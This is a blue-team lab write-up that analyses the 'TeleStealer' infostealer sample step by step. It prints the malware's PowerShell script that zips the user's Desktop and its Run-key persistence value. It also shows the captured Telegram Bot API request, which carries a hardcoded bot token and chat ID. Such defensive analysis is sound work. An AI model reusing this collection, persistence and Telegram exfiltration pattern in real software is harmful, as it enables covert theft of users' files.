

# TeleStealer Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/telestealer/](https://cyberdefenders.org/blueteam-ctf-challenges/telestealer/)

Suggested tools: Detect It Easy, PEStudio, UPX, Wireshark, FakeNet, ProcMon, CAPA, CyberChef

Tactics: Execution, Persistence, Privilege Escalation, Defense Evasion, Command and Control

# Scenario

At the company, our network team noticed a big increase in network activity on one of our computers in the last few days. After looking into it, we found out that an employee had downloaded untrusted software, but they weren't sure what it was doing. We need you to investigate carefully and find out what it does.

# Questions

Q1- Malicious software frequently employs diverse methods to hide its presence and avoid detection. What is the name of the packing tool that was utilized to obfuscate this malware?

Answer: UPX

Reason: Initial static triage of `telestealer.exe` (133.50 KiB, PE32, Windows Vista subsystem, i386/32-bit console) using Detect It Easy (DiE) identified the file as packed with UPX (Ultimate Packer for eXecutables) version 4.10, using the NRV (Not Really Vectorized) compression method with brute-force optimization flags. UPX is a widely available, legitimate open-source packer commonly abused by malware authors to compress and obfuscate executable code, reducing static signature matches and complicating initial reverse engineering until the sample is unpacked.



Q2- Since the malware author used multiple techniques to hide its functions, where does the malware place the second stage?

Answer: `C:\Users\Administrator\AppData\Roaming\Dropper`

Reason: Dynamic analysis of `telestealer.exe` was performed using Process Monitor (ProcMon), filtered by process name and file system operation. After loading standard Windows libraries (`ole32.dll`, `oleaut32.dll`) from `C:\Windows\SysWOW64\`, the process `telestealer.exe` (PID `2112`) created a new directory at `C:\Users\Administrator\AppData\Roaming\Dropper`.

This directory is the second-stage staging location, where the malware subsequently drops `script.ps1` before invoking `powershell.exe`. Using `AppData\Roaming` avoids requiring elevated privileges while persisting across reboots for the current user, a common evasion technique.


Q3- Looking into how the malware persist on the machine, what's the path of the registry key it uses to do this?

Answer: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

Reason: Continuing dynamic analysis in Process Monitor, the filter was changed to the `RegSetValue` operation to identify persistence mechanisms. The highlighted entry shows `telestealer.exe` (PID `2112`) writing a value named `Tele$teal` to the registry key `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`.

This is the classic `Run` key persistence technique: any value placed under this key is automatically executed at user logon, giving the malware a straightforward, low-privilege method to survive reboots without requiring a scheduled task or service installation. Subsequent entries show the malware also touching Internet Settings cache and zone map keys, likely related to its network communication behavior rather than persistence itself.

```powershell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Tele$teal
```


Q4- We've noticed unusual network traffic in recent days since the discovery of the malware. We need to determine what data it might have sent out. What's the path of the exfiltrated data?

Answer: `C:\Users\Administrator\Desktop`

Reason: Examination of the dropped second-stage script, `script.ps1`, located in `C:\Users\Administrator\AppData\Roaming\Dropper`, revealed the exfiltration logic. The script recursively enumerates all files under `C:\Users\Administrator\Desktop` using `Get-ChildItem`, then compresses each file into a single archive at `C:\Users\Administrator\AppData\Roaming\Dropper\Archive.zip` using `Compress-Archive` with the `-Update` flag, wrapped in a `try/catch` block to silently skip any files that fail to compress. This confirms the malware targets the entire user desktop as its collection source, staging the archived contents locally before transmission, consistent with a credential/document-stealer profile aligned with the sample's `TeleStealer` naming.

```powershell
Get-ChildItem -Path C:\Users\Administrator\Desktop -Recurse -File | ForEach-Object { 
try { 
Compress-Archive -Path $_.FullName -DestinationPath C:\Users\Administrator\AppData\Roaming\Dropper\Archive.zip -Update -ErrorAction Stop 
} catch {} 
}
```

Q5- You've verified that the malware is gathering sensitive data from compromised machines. It mainly uses a separate communication channel to send out the data. What is the full domain that the malware uses to exfiltrate the data?

Answer: `api.telegram.org`

Reason: Continuing dynamic analysis, ProcMon was filtered to identify network-related activity following the file staging behavior confirmed in Q4. A `TCP Disconnect` event revealed `telestealer.exe` (PID `2112`) communicating with the remote endpoint `149.154.166.110` over `HTTP`, visible in the connection path `EC2AMAZ-I6RJG7O.ec2.internal:50895 -> 149.154.166.110:http`. To resolve the domain associated with this `IP address`, a reverse DNS (Domain Name System) lookup was performed using WhoisFreaks' historical passive DNS tool. The lookup returned a single associated domain, `api.telegram.org`, last seen `2026-07-11`. This confirms the malware abuses Telegram's legitimate bot Application Programming Interface (API) infrastructure as its exfiltration channel, a common technique since traffic to `api.telegram.org` blends into legitimate application traffic and typically bypasses domain-reputation-based network filtering.

```
149.154.166.110 -> api.telegram.org
```


Q6- Once the channel is recognized, the next step is to determine who is receiving the exfiltrated data. Utilizing Python and the hosts file, can you determine the username of the recipient?

Answer: `bot6369451776`

Reason: To intercept the exfiltration request without allowing it to reach the real Telegram infrastructure, the Windows `hosts` file (`C:\Windows\System32\drivers\etc\hosts`) was modified to redirect `api.telegram.org` to the loopback address, adding the entry `127.0.0.1 api.telegram.org`. A local Python `http.server` instance was then started on port `80` to receive the redirected request, with Wireshark capturing on the loopback adapter to inspect the traffic.

Re-running `telestealer.exe` triggered a `GET` request to the local server: `/bot6369451776:AAEYgeQO4Onl5XIHhXTtzvcNOMahPNhhlZo/sendDocument?chat_id=7389421`. This confirms the malware communicates with the Telegram Bot API's `sendDocument` method, using a hardcoded bot token to authenticate and a `chat_id` identifying the recipient conversation. The bot username, `bot6369451776`, is derived directly from the numeric bot ID prefix in the token, and represents the attacker-controlled Telegram bot receiving the exfiltrated archive.

```
GET /bot6369451776:AAEYgeQO4Onl5XIHhXTtzvcNOMahPNhhlZo/sendDocument?chat_id=7389421 HTTP/1.1
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Sample | File | `telestealer.exe` |
|  | Size | 133.50 KiB |
|  | Format | PE32, i386, Windows Vista subsystem, console |
|  | Packer | UPX 4.10 (NRV, brute-force flags) |
| Dropped File | Second-stage script | `script.ps1` |
|  | Staging directory | `C:\Users\Administrator\AppData\Roaming\Dropper` |
|  | Exfil archive | `C:\Users\Administrator\AppData\Roaming\Dropper\Archive.zip` |
|  | Collection source | `C:\Users\Administrator\Desktop` |
| Persistence | Registry key | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` |
|  | Registry value name | `Tele$teal` |
| Network | C2 domain | `api[.]telegram[.]org` |
|  | C2 IP | `149.154.166.110` |
|  | Protocol | HTTP (Telegram Bot API) |
|  | API method | `sendDocument` |
|  | Bot token | `6369451776:AAEYgeQO4Onl5XIHhXTtzvcNOMahPNhhlZo` |
|  | Bot username | `bot6369451776` |
|  | Telegram chat_id | `7389421` |
| Process | Name | `telestealer.exe` |
|  | PID | `2112` |
|  | Host | `EC2AMAZ-I6RJG7O` |

# Lab Insights

- Legitimate-service C2 abuse: Using `api.telegram.org` as the exfil channel exploits domain-reputation trust — traffic blends with normal app traffic and bypasses reputation-based filtering that would flag a novel C2 domain.
- Two-stage dropper as layered evasion: The UPX-packed EXE never performs exfiltration itself; it drops and hands off to script.ps1, splitting the attack across a compiled binary and a living-off-the-land interpreter (PowerShell) to fragment the detection surface across tooling.
- Low-privilege persistence by design: Both the drop location (AppData\Roaming) and the persistence mechanism (HKCU...\Run) deliberately avoid requiring elevation — the malware trades stealth/simplicity for privilege, needing no UAC prompt or admin rights to survive reboot.
- Bot token as a static, extractable secret: Because the token is hardcoded in the script rather than fetched dynamically, intercepting a single request (via hosts-file redirection + local HTTP listener) fully deanonymizes the attacker's receiving channel — a durable IOC unless the actor rotates the bot.
- DNS/hosts-file redirection as a safe dynamic-analysis technique: Redirecting the malware's hardcoded domain to loopback and standing up a local listener let the request be captured without ever touching real Telegram infrastructure or alerting the actor — a reusable pattern for any sample with a hardcoded domain instead of an IP.
- Naming as a hypothesis, not a conclusion: The sample's own name (TeleStealer) hinted at both the Telegram C2 channel and the desktop-collection/stealer behavior — worth noting as a lightweight triage signal, though it still required dynamic verification.